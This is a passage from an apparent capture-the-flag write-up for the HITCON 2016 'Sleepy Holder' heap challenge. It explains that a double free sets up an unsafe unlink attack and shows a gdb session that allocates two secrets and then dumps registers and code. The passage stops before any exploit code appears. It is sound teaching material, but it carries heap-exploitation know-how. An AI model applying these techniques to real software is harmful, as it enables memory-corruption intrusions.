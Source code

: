 When the double free happens, it will switch the `previous_in_use` bit in chunk `1` (big secret) to be 0x0. This will set us up to do an unsafe unlink attack in the next step. Below is a gdb walkthrough of this process:

```
gdb-peda$ r
Starting program: /Hackery/Hitcon16/sleepy_holder/SleepyHolder_3d90c33bdbf3e5189febfa15b09ca5ee61b94015 
Waking Sleepy Holder up ...
Hey! Do you have any secret?
I can help you to hold your secrets, and no one will be able to see it :)
1. Keep secret
2. Wipe secret
3. Renew secret
1
What secret do you want to keep?
1. Small secret
2. Big secret
3. Keep a huge secret and lock it forever
1
Tell me your secret: 
15935728
1. Keep secret
2. Wipe secret
3. Renew secret
1
What secret do you want to keep?
1. Small secret
2. Big secret
3. Keep a huge secret and lock it forever
2
Tell me your secret: 
75395182
1. Keep secret
2. Wipe secret
3. Renew secret
^C
Program received signal SIGINT, Interrupt.

[----------------------------------registers-----------------------------------]
RAX: 0xfffffffffffffe00 
RBX: 0x0 
RCX: 0x7ffff7b08890 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x4 
RSI: 0x7fffffffdec0 --> 0x7fff00000000 
RDI: 0x0 
RBP: 0x7fffffffded0 --> 0x400e60 (push   r15)
RSP: 0x7fffffffdea8 --> 0x400e14 (lea    rax,[rbp-0x10])
RIP: 0x7ffff7b08890 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
R8 : 0x7ffff7fd1700 (0x00007ffff7fd1700)
R9 : 0xfb0 
R10: 0x7ffff7dd1b58 --> 0x604960 --> 0x0 
R11: 0x246 
R12: 0x400850 (xor    ebp,ebp)
R13: 0x7fffffffdfb0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff7b08887 <read+7>:	jne    0x7ffff7b08899 <read+25>
   0x7ffff7b08889 <__read_nocancel>:	mov    eax,0x0
   0x7ffff7b0888e <__read_nocancel+5>:	syscall 
=> 0x7ffff7b08890 <__read_nocancel+7>:	cmp    rax,0xfffffffffffff001
   0x7ffff7b08896 <__read_nocancel+13>:	jae    0x7ffff7b088c9 <read+73>
```